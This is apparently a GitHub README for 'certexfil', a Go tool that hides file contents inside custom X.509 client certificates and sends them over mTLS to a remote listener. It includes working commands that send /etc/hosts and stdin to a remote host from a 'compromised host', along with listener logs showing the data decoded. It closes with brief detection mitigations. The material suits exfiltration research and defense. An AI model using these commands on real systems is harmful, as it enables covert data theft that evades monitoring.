 [![CodeQL](https://github.com/sourcefrenchy/certexfil/actions/workflows/codeql-analysis.yml/badge.svg)](https://github.com/sourcefrenchy/certexfil/actions/workflows/codeql-analysis.yml)

# Exfiltration fun using X509 digital certificates

## Overview

I spend a ton of time on exfiltration topics and mitigation techniques. This is my very first attempt to try to learn Go by having a quick way to convert a payload (reading a file) and building it as part as a custom x509 digital certificate.

More info at https://medium.com/@jeanmichel.amblat/abusing-certificates-for-data-exfiltration-d6bff2533cd0

If you new to playing with certs, you will find the following interesting links that inspired me (must read first):

* https://medium.com/sitewards/the-magic-of-tls-x509-and-mutual-authentication-explained-b2162dec4401
* https://venilnoronha.io/a-step-by-step-guide-to-mtls-in-go
* https://tools.ietf.org/html/draft-ietf-oauth-mtls-14

Certexfil has three modes: CA generation, client and listener:

* You can use --ca to bootstrap and set a CA to create certificates (and authenticate them later)
* You can use --payload embed a payload (file) into a new client certificate then use mTLS against a listener service
* You can use --listen to start aservice using a certificate to accept valid mTLS clients and retrieve the embedded payload

## Usage

### Create CA + prepare your listener on your remote server

This is to create server_cert.pem and server_key.pem certificates to be used for mTLS (client and listener will use those:

```
somewhere$ certexfil -ca -ecdsa-curve P521 --host remote.host.com
```

Now make sure your have binary certexfil and the new ./CERTS directory on your remote server. Then, run the mTLS listener:

```
remoteserver$ ./certexfil --listen
```

### Client or (simulated) compromised host

Passing an output as payload:

```
06:46:00 jma@wintermute Go-Workspace → echo 'w00t w00t' | certexfil --host remote.server.com  --payload -
2019/05/31 18:48:27 [*] Reading from stdin..
2019/05/31 18:48:27 [D] Payload (raw)  --> w00t w00t...	(9 bytes)
2019/05/31 18:48:27 [D] Payload (Prepare()) --> �...		(31 bytes)
2019/05/31 18:48:27 [*] Generated custom cert with payload
Oo
```

Passing a file as payload:
```
06:52:14 jma@wintermute Go-Workspace → certexfil --host remote.server.com --payload /etc/hosts
2019/05/31 18:52:23 [*] Reading from file..
2019/05/31 18:52:24 [D] Payload (raw)  --> 127.0.0.1	...(225 bytes)
2019/05/31 18:52:24 [D] Payload (Prepare()) --> �...		(173 bytes)
2019/05/31 18:52:24 [*] Generated custom cert with payload
Oo

```


### As seen on the listener

```
○ → ./certexfil --listen
2019/05/31 22:51:01 [*] Starting listener..
2019/05/31 22:51:7 [*] Payload received: H4sIAAAAAAAC/yo3MChRABGAAAAA//8t0rpUCQAAAA==
2019/05/31 22:51:07 [*] Payload decoded: w00t w00t

2019/05/31 22:52:24 [*] Payload received: H4sIAAAAAAAC/0TNMa7DIAwG4DmcwtKbH4IMqcQNunXoBQgxDaoDCJOmx69o08abP1v/r/uTVFJJ3VFylubEVXxMS91tIVYsy1pRiD+4zgg+EaUtxBtQiMhgC8KEHIodqV0LnC+PAZzNb2h5LIzR0Cbk4f9Xs28pj9bdhUeljFHHS8QqvD9wcZZrLujDs3nfMptbopgm5B37L5a0ViwsXgEAAP//pJPCNuEAAAA=
2019/05/31 22:52:24 [*] Payload decoded: 127.0.0.1	localhost
127.0.1.1	wintermute

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

## Mitigations

* Fresh certificates ? you should look for those
* Large payload vs average certificates from same client (a decent firewall or BroIDS should be able to help)

## Todo

* Peer-review from a real Go developper.. I should stick to Python, I know.
* ~~Set a DEBUG option, clean code~~
* ~~merge client/listener in one~~
* automatic deployment of generated certs (DNS TXT? :P)
* Actually have crypto in cryptopayload module

## Contact

* @Sourcefrenchy
